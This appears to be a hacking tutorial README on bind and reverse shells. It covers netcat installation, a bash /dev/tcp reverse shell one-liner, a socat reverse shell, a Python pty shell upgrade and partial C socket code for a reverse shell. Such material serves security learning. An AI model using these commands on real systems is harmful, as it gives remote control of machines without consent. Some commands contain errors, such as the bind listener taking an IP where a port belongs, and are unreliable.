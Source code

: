 ### Shells (Hack Responsibly)

## Introduction
Gaining a shell on your attack system is the ultimate goal , this way the impact of the vulnerability can be stressed.

According to wiki "a shell is a computer program which exposes an operating system's services to a human user or other programs.". now let's think of it this way , say you want total control of a system, you want to be able to switch it on , use it's camera , transfer its file and so on. the easiest way this could be done is to have physical access to the device. Another way, is to be able to control this system in question remotely (you can stay in your office in another country and access your files and computer usage from home).
A malicious attacker with unauthorized access with unauthorized access may also be able to do .if your system is compromised , just like you they dont have to be in thesame physical location to do this.
Now most of the time this compromise happens. the attacker access and controls your computer by typing commands through this shell, which in turn takes these commands typed and execute accordingly (most of the time, sometimes it asks if you are allowed to execute these commands).
An example of this is typing "shutdown now" on your unix system and watch your computer literaly shutdown, you dont have to press any button or click any beautiful GUI for this to happen, just a coomand lets it. i think i've explained this as best as i can .[check this wikipedia for more detailed explanation](https://en.wikipedia.org/wiki/Shell_(computing))



## Executing Shell

There are two ways to access a shell (bind shell and reverse shell)
1. you connect to the computer in question (bind)
2. the computer connects to you (reverse)

**The Bind shell** is rarely used in practice, due to firewalls that restricts imbound connection . dynamic IP addresses etc . In the case of a bind shell you make a connection to the user , that means the user has to be waiting (listening ) for connection and you connect to it. for this to work you will need the IP address of the system and the port you want to make connection to . note: once the IP address changes there is no way for you to access the system unless ofcourse you find its new IP

## Using Netcat for a bind shell 
First we need to install netcat.

### 🔌 Installing Netcat (`nc`) on Android, Windows, and Linux

Netcat (often abbreviated as `nc`) is a powerful network tool used for reading from and writing to network connections using TCP or UDP.

---

### 📱 Android

#### Option 1: Using Termux (Recommended)
1. Install [**Termux**](https://f-droid.org/en/packages/com.termux/) from F-Droid.
2. Run the following commands in Termux:
   ```bash
   pkg update
   pkg install netcat-openbsd
   
✅ Netcat will be installed as nc.

####  Option 2: Using BusyBox (Root Required)
1. Install BusyBox from Play Store or F-Droid.

2. Open a terminal emulator or ADB shell:

   ```bash
   busybox nc


### 🪟 Windows

#### Option 1: Using Nmap's Ncat
1. Download and install Nmap from https://nmap.org/download.html.

2. Use Ncat (a Netcat-compatible tool) from the command line:
   ```powershell
   ncat.exe -l -p 4444
   
### Option 2: Standalone Netcat Binary
1. Download from a trusted source like https://eternallybored.org/misc/netcat/
2. Extract and run from Command Prompt:
   ```cmd
   nc.exe -l -p 4444
   
### 🐧 Linux
1. Debian/Ubuntu-based:
   ```bash
   sudo apt update
   sudo apt install netcat-openbsd
2. Arch-based:
   ```bash
    sudo pacman -S gnu-netcat

3. RHEL/CentOS/Fedora:

   ```bash
   sudo dnf install nmap-ncat
#### ✅ Verify Installation
1. Run one of the following commands:
   ```bash
   nc --version
#### or
2.
   ```bash
    ncat --version

#### ℹ️ Note: Depending on your OS and install method, the command may be nc, netcat, or ncat.

    
    Feel free to open an issue or PR if you encounter platform-specific differences!


  ## Using Netcat for a bind shell
     Attacker's Host: nc <IP> <port> # makes connection to remote machine (looks for machine with that IP and has that port opened and makes a connection to it)
     Remote Machine: nc -nvlp <IP> # listens for connection (waits for someone to connect to its machine through that port)
  ## Using Netcat for a reverse shell
      Attacker's Host: nc -nlvp <PORT> # The attacker waits for the host to connect to its own machine , in this case its the one listening for connection)
      Remote Machine: nc <IP> <PORT> # Remote machine has the IP address of the attacker and makes connection to it ( well the attacker has a static IP that wont be chabging anytime soon)
      Or :bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
    
 PS: Only netcat is mentioned here , there are tons of tools to make reverse connection [check payloadallthethings for reverse shell with other tools ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
     

### Shell Codes
  Describe code executed by a target program due to a vulnerability exploit and used to open a remote shell 
  

### Upgrading Simple Shells to Fully Interactive TTYs
using python

  on victim:
    ``` 
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
    (press on your keyboard) Ctrl+Z

    (press on your keyboard) Enter

   on your local host: stty raw -echo

   on your local host:
   
      fg (you will not see your keystrokes -- trust yourself and hit Enter)

      (press on your keyboard) Enter

      (press on your keyboard) Enter

   on the victim: 
   
      export TERM=xterm

  
    
 using socat:
 on host(attacker):
 ```bash
    socat file:`tty`,raw,echo=0 tcp-listen:4444
 ``` 
 on victim :

```bash
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
    
# C reverse shell (shell.c)

## Socket Creation

sockfd: socket descriptor, an integer (like a file-handle)

domain: integer, specifies communication domain.
   - AF_ LOCAL: as defined in the POSIX standard for communication between processes on the same host. 
   - AF_INET: For communicating between processes on different hosts connected by IPV4
   - AF_I NET 6 for processes connected by IPV6.
   - AF_BLUETOOTH is used for low-level Bluetooth connection.
type: communication type
   - SOCK_STREAM: TCP connection
   - SOCK_DGRAM: UDP connection
protocol: Protocol value for Internet Protocol(IP), number on protocl field in the Ip header of a packet. 

```
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

```
## Socket Connection

Sends connection request to Socket and connects if open (returns 0); fails otherwise (returns -1)

```
    connect(sockfd, (struct sockadr *)&addr, sizeof(addr));
```


https://www.geeksforgeeks.org/socket-programming-cc/